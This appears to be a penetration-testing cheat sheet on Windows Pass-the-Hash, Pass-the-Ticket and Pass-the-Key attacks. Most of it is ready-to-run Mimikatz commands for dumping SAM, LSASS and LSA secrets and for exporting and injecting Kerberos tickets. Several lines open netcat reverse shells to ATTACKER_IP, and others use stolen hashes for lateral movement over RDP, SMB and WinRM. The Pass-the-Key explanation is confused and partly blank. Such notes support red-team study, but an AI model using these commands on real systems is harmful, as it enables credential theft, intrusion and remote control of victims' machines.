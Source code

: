 
## General

Alternate Authentication with Pass-the-Hash (PtH), Pass-the-Ticket (PtT), and Pass-the-Key (PtK) are methods for authenticating to a system without providing a plaintext password.

Pass-the-Hash (PtH) is an attack technique that allows an attacker to use a stolen password hash to authenticate to a system, without needing to know the plaintext password. This can be done by capturing the NTLM or LM hash of a user's password, which is stored on a Windows system when the user logs in.

Pass-the-Ticket (PtT) is an attack technique that allows an attacker to use a stolen Kerberos ticket to authenticate to a system, without needing to know the plaintext password. This can be done by capturing the Kerberos ticket that is issued to a user when they log in, and then using it to authenticate to other systems on the network.

Pass-the-Key (PtK) is an attack technique that allows an attacker to use a stolen encryption key to decrypt sensitive data, without needing to know the plaintext password. This can be done by capturing the encryption key that is used to encrypt a user's data and then using it to decrypt the data. (Steal key encryption of tickets)

All these methods are used by attackers to gain unauthorized access to a system by bypassing normal authentication mechanisms.

PtH = Using the hash to connect
PtT = Using ticket to connect
PtK = 

LOCAL VS ACTIVE DIRECTORY
	While using tools such has mimikatz, you can gather local hash and active direcotry hash from users. Take note that mimikatz is not the only tool you can use to find hashes, tickets and keys


## Commands

To begin, one must acquire some hashes, tickets, or keys. This can be done using tools such as Mimikatz.

- Upload Mimikatz to the target System

## Alternate Authentication (PtH)
```
mimikatz # privilege::debug
mimikatz # token::elevate

# Local Users
lsadump::sam

# AD Users
sekurlsa::msv

#Setup Lisener (Attacking Machine)
nc -lvnp PORT

# Launch Reverse Shell (Using nc64 ont the other machine, you can use other technique to launch a reverse shell (Example smb/psexec in msfconsole))
sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTLM_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```
- Other Technique to pass the hash
	RDP      --> xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
	SMB      --> psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
	WinRM  -->evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH


## Alternate Authentication (PtT)
```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export

# We can inject the tickets into the current session
kerberos::ptt [0;427fcd5]-2-0-40e10000-USER@MACHINE_DOMAIN (Change the tickets)

# Check the if you have the tiket permission
C:\> klist
```


## Alternate Authentication (PtK)
```
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys

#Setup Lisener (Attacking Machine)
nc -lvnp PORT
```
b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65
**If we have the RC4 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:USER /domain:DOMAIN /rc4:RC4_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```

**If we have the AES128 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:USER /domain:DOMAIN /aes128:AES128_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```

**If we have the AES256 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:USER /domain:DOMAIN /aes256:AES256_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```

## Dump LSAdump
```
mimikatz # token::elevate
mimikatz # lsadump::secrets
```